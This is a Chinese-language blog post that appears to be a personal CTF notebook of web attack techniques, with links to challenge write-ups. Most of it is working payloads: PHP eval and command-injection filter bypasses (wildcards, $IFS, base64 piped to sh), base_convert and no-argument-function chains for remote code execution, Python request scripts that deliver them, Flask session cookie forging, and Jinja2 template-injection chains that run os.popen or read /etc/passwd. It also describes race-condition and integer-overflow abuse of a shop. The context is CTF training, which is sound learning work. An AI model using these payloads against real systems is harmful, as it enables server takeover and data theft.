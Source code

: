 ```yaml
---
layout: post
title: "web常见攻击方法"
date: 2018-10-23 15:23:57 +0800
description: ""
category: ctf/web
tags: []
---
```


- python -m SimpleHTTPServer 80
- grep -ri flag . #recursive/insensitive grep flag string in current directory files
- 使用`$_REQUEST[]`接收参数的代码，如果同时使用GET和POST两种方式传相同类型的参数，那么POST的参数会覆盖掉GET的参数，最终`$_REQUEST[]`接受的参数是POST过来的参数
- cat被过滤：tac

## 代码审计

#### 直接命令执行

###### 极限利用（限制可执行命令的长度和字符类型）：[Web-2，安恒月赛-2018-09](http://skysec.top/2018/09/24/2018%E5%AE%89%E6%81%92%E6%9D%AF-9%E6%9C%88%E6%9C%88%E8%B5%9BWriteup/#Web2)

```php
    if(strlen($code)>35){ #限制长度小于等于35
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9_$]+/",$code)){ #限制不能使用大小写字符、数字、下划线和美元符
        die("NO.");
    }
    @eval($code);
```

原理：利用通配符`? * %`执行命令：`/???/??? => /bin/cat `，利用模板渲染回显结果：`<?=``?> `，完整利用步骤如下：

```
?><?=`/???/???%20/???/???/????/*`?>
"/bin/cat /var/www/html/index.php" #读取源码
?><?=`/???/???%20/????`;?>
"/bin/cat /flag" #读取flag
```

###### [命令注入及绕过waf](https://www.jianshu.com/p/000a4ad1b933)：ezsql（安恒月赛-2018-11），PingPingPing（GXY-CTF-2019）

- 分割命令用`;`或者逻辑运算符`&&`：`id;id`，`id&&id`

- 过滤空格：`$IFS`，`${IFS}`，`$IFS$9`，`%09`，`<` #$9只是当前系统shell进程的第九个参数的持有者，它始终为空字符串。

- 过滤`/`：`expr substr $(pwd) 1 1`

- 过滤flag：base64方式`?ip=127.0.0.1;echo$IFS$9Y2F0IGZsYWcucGhw|base64$IFS$9-d|sh`；bash方式`?ip=127.0.0.1;a=ag;b=fl;cat$IFS$9$b$a.php`；两者结合

  ```sh
  a=`echo$IFS$9ZmxhZy5waHA=|base64$IFS$9-d`;tac$IFS$9$a
  cat$IFS$9`ls`
  ```

###### 进制转换：[Love-Math，CISCN-2019](https://www.cnblogs.com/20175211lyz/p/11588219.html)

```php
//base_convert(37907361743,10,36) => 将10进制转36进制，得到a-z，"hex2bin"
//dechex(1598506324) => 将十进制转换为十六进制，"5f474554"
//$pi=hex2bin("5f474554") => $pi="_GET"   //hex2bin将一串16进制数转换为二进制字符串，下划线、空格、星号等特殊符号无法直接通过base_convert进制转换，因此需要借助hex2bin
//($$pi){pi}(($$pi){abs}) => ($_GET){pi}($_GET){abs}  //{}可以代替[]
$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=cat flag.php
//(base_convert(53179,10,36)=1517) ^ (base_convert(110136,10,36)=nrtc) = _GET
0=system&1=cat%20flag.php&c=$pi=base_convert;$pi=$pi(53179,10,36)^$pi(110136,10,36);$$pi{0}($$pi{1})

//base_convert(696468,10,36) => "exec"
//$pi(8768397090111664438,10,30) => "getallheaders"
//exec(getallheaders(){1})
$pi=base_convert,$pi(696468,10,36)($pi(8768397090111664438,10,30)(){1}) //再通过BP设置HTTP头：1: cat flag.php

//exec('hex2bin(dechex(109270211257898))') => exec('cat f*')
($pi=base_convert)(22950,23,34)($pi(76478043844,9,34)(dechex(109270211257898)))

//system('cat'.dechex(16)^asinh^pi) => system('cat *')
base_convert(1751504350,10,36)(base_convert(15941,10,36).(dechex(16)^asinh^pi)) //'10'^'as'^'pi'=>' *'
```

###### [无参函数RCE](http://www.pdsdt.lovepdsdt.com/index.php/2019/11/06/php_shell_no_code/)：[禁止套娃](http://www.pdsdt.lovepdsdt.com/index.php/2019/12/23/gxy_ctf-ginkgo/)（GXYCTF-2019），[boring_code](https://www.cnblogs.com/BOHB-yunying/p/11616311.html)（bytectf-2019）

```php
if(';' === preg_replace('/[a-z|\-]+\((?R)?\)/', NULL, $_GET['exp'])) {
  if (!preg_match('/et|na|nt|info|dec|bin|hex|oct|pi|log/i', $code)) {
#(?R)? recurses the entire pattern
#preg_replace的主要功能无限嵌套匹配纯小写字母和-的函数，替换为空，最后只剩下;，例如：aaa(bbb(ccc()))这种，带参数的aaa('bbb')是不允许进行传入的
#preg_match的主要功能就是过滤函数，把一些常用不带参数的函数关键部分都给过滤了，需要去构造别的方法去执行命令

getcwd() 函数返回当前工作目录。
scandir() 函数返回指定目录中的文件和目录的数组。
dirname() 函数返回路径中的目录部分，结合getcwd返回上一级目录。
chdir() 函数改变当前的目录。
readfile/readgzfile/highlight_file/show_source()  输出一个文件
current/pos() 返回数组中的当前单元, 默认取第一个值
reset() 函数将内部指针指向数组中的第一个元素，并输出
next() 函数将内部指针指向数组中的下一个元素，并输出。
end()  将内部指针指向数组中的最后一个元素，并输出。
array_rand() 函数返回数组中的随机键名，或者如果您规定函数返回不只一个键名，则返回包含随机键名的数组。
array_flip() 反转/交换数组中所有的键名以及它们关联的键值，结合array_rand遍历所有键值
array_reverse() 以相反的元素顺序返回数组
array_slice() 函数在数组中根据条件取出一段值，并返回
chr() 函数从指定的 ASCII 值返回字符。
hex2bin() 转换十六进制字符串为二进制字符串
getenv() 获取一个环境变量的值(在7.1之后可以不给予参数)
```

- Apache环境，利用getallheaders()

在HTTP头中加入`：system('ls /tmp');`

`eval(end(getallheaders()))`

- 其他环境


1. 利用get_defined_vars()

`eval(end(current(get_defined_vars())));&sky=system('ls%20/tmp');`当get_defined_vars返回的列表第一项是`_GET`可用，否则需要array_rand(array_flip())遍历；end取最后一个元素的值`system('ls%20/tmp')`。如果网站过滤了`_GET/_POST/_COOKIE`，则需要从`_FILES`下手：

```python
import requests
from io import BytesIO
payload = "system('ls /tmp');".encode('hex')
files = {
  payload: BytesIO('sky cool!')
}
r = requests.post('http://localhost/?code=eval(hex2bin(array_rand(end(get_defined_vars()))));', files=files, allow_redirects=False)
print r.content
```

2. 利用session_id()和hex2bin

```python
import requests
url = 'http://localhost/?code=eval(hex2bin(session_id(session_start())));' #session_start()开启session会话
payload = "echo 'sky cool';".encode('hex')
cookies = {
	'PHPSESSID':payload
}
r = requests.get(url=url,cookies=cookies)
print r.content
```

3. 利用`scandir/dirname/chdir/getcwd`目录操作以及`readfile/readgzfile/highlight_file`读文件操作

```php
pos(localeconv()) #localeconv数组第一个元素是.
chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion())))))))) #chr(46)得到.
chr(pos(localtime(time))) #localtime(time)返回时间数组，pos取秒得到0-60内的一个数，设置Burpsuite一秒间隔发包，第46秒得到.
chr(ord(hebrevc(crypt(phpversion())))) #MD5加密后反向显示，由于crypt(str,salt)的salt值会随机生成，因此需要多请求几次得到.开始的字符串，转ord，再chr得到.

show_source(next(array_reverse(scandir(pos(localeconv())))));
print_r(highlight_file(next(array_reverse(scandir(pos(localeconv()))))));
echo(readfile(end(scandir(reset(localeconv())))));
echo(readfile(end(scandir(chr(pos(localtime(time(chdir(next(scandir(chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))))))))))))); #chdir(next(scandir(.)读上一级目录
```

## 购物商城

#### 条件竞争&整数溢出：[itshop，护网杯-2018](http://skysec.top/2018/10/13/2018%E6%8A%A4%E7%BD%91%E6%9D%AF-web-writeup/#ltshop)

一个账户的两个登陆同时买辣条，只会扣一次钱，却会得到两个辣条，利用burpsuite进行条件竞争。

整数溢出：

int： `2**32-1 = 4294967295`

long： `2**63 -1 = 9223372036854775807`

unsignedlong： `2**64-1 = 18446744073709551615`

由于5个辣条兑换1个辣条之王，构造兑换数量，使兑换数量*5溢出，小于已有辣条数量即可，因此兑换数量为：

```python
i = 2**64 // 5 + 1 # 3689348814741910324
j = i * 5 % (2 ** 64) # 4
```

#### 伪造购物用户：[ezshop，安恒月赛-2018-10](https://www.smi1e.top/?p=119#ezshop)

查询数据库user表，查到admin的用户id，订单支付的时候，将当前用户id修改为admin的用户id，伪造签名，从而使用admin的账号代为支付。

## Python站

#### flask-session伪造：[留言板，中原工学院-2018](https://mp.weixin.qq.com/s/BMsWmiy9Hs0BRqr9EibThQ)

利用[Flask-session Cookie Decoder/Encoder](https://github.com/noraj/flask-session-cookie-manager)伪造admin的cookie，必须使用`python3`。

```powershell
>python3 D:\ctf\tools\packet\flask-session-cookie-manager\session_cookie_manager.py decode -c eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIlx1NzY3Ylx1NWY1NVx1NjIxMFx1NTI5ZiJdfV0sIm5hbWUiOiJ0ZXN0In0.XCLoGg.hkrHrcE6cV_TTN8o1UCEvQjmpik -s dropseckey123
{'_flashes': [('message', '登录成功')], 'name': 'test'}
>python3 D:\ctf\tools\packet\flask-session-cookie-manager\session_cookie_manager.py encode -t "{'_flashes': [('message', '登录成功')], 'name': 'admin'}" -s dropseckey123
eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIlx1NzY3Ylx1NWY1NVx1NjIxMFx1NTI5ZiJdfV0sIm5hbWUiOiJhZG1pbiJ9.XCLpjw.3pQY5fDClFG0yNTv2EZKyp6S_eE
```

#### [flask之ssti模板注入](https://www.cnblogs.com/20175211lyz/p/11425368.html，https://xz.aliyun.com/t/3679)：（[flask](https://wiki.merak.codes/writeup/NJUPT-2019)，NCTF-2019），（[EasyFlask](https://www.gem-love.com/ctf/1799.html#EasyFlask)，安恒月赛-2020-02）

成因：代码中使用`render_template_string`代替`render_template`，直接调用用户输入作为模板，当用户输入中包含`{{...}}`则会作为模板解释，从而导致注入。

利用：通过`''`，`[]`，`()`等数据结构，配合`__class__.__mro__[2]`或者`.__class__.__bases__[0]`找到object类，再通过`__subclasses__()`找到可用子类（FILE (40)或warnings.WarningMessage (59)），结合相应的函数，如读文件或系统调用，进行利用：

```python
#Python 2.7
''.__class__.__mro__[2].__subclasses__()[40]('inst.ini').read() #read file
#run os command
().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['linecache'].__dict__['os'].popen('ls').read()
().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls").read()')

#Python 3
().__class__.__bases__[0].__subclasses__()[177].__init__.__globals__['__builtins__']['open']('inst.ini').read() #read file
#run os command
"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__['popen']('dir').read()
().__class__.__bases__[0].__subclasses__()[177].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")

#过滤关键字
{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('cat /f'+'lag').read()}} #字符串拼接
{{[].__getattribute__('X19jbGFzc19f'.decode('base64')).__base__.__subclasses__()[40]("/etc/passwd").read()}} #base64
{{[].class.base.subclasses()[40](('galf/'%7Creverse)).read()}} #jinja语法，反向

#过滤[]，利用__getitem__(2)或者pop(40)，下例中x4=__getitem__
#过滤.，利用原生JinJa2函数|attr()
#过滤_，利用request.args通过GET或者POST传参
{{()|attr(request['args']['x1'])|attr(request['args']['x2'])|attr(request['args']['x3'])()|attr(request['args']['x4'])(233)|attr(request['args']['x5'])|attr(request['args']['x6'])|attr(request['args']['x4'])(request['args']['x7'])|attr(request['args']['x4'])(request['args']['x8'])(request['args']['x9'])}}?x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('想要执行的命令').read()
```

